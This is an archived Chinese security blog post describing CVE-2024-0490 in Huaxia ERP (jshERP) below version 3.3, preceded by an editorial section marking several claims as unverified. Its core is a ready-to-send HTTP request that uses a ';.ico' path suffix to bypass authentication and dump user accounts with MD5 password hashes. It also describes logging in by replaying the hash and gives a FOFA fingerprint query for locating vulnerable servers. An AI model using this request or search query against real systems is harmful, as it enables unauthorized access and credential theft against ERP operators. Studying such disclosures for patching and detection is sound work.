



## 核对与使用边界

- 分类更正：本文实际对象是 华夏ERP / jshERP，原 CMS 内容目录不能代替产品归属；只修正字段和分类建议，路径、来源和技术方法继续保留。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;3.3claimed; ;.ico pathinterpretation mismatch; loginacceptshashforreplayifclaimed

- **事实待核（1）**：ERP误入CMS，应移产品正确类别并统一690/691目录。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（2）**：标题密码泄露实际MD5哈希，哈希可直接登录的二次链需要登录接口/验证源码。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（3）**：getAllList;.ico完整请求有价值但只有截图结果，无补丁/官方CVE源。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（4）**：&lt;3.3受影响范围需核具体patch版本，不只指纹图推定。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  华夏ERP getAllList账号密码泄露-CVE-2024-0490   
小白菜安全  小白菜安全   2024-01-21 18:25  
  
**免责声明**  
  
该公众号主要是分享互联网上公开的一些漏洞poc和工具，  
利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本公众号及作者不为此承担任何责任，一旦造成后果请自行承担！如果本公众号分享导致的侵权行为请告知，我们会立即删除并道歉。  
  
  
  
**漏洞影响范围**  
  
华夏erp<3.3  
  
  
#  漏洞复现  
  
**poc**  
```
GET /jshERP-boot/user/getAllList;.ico HTTP/1.1
Host: 127.0.0.1
accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```  
  
漏洞复现  
1. 出现以下信息代表漏洞存在  
  
  
  
2.获取密码为md5值，也可抓取登录数据包替换md5值登录系统  
  
  
# 搜索语法  
  
**fofa：icon_hash="-1298131932"**  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
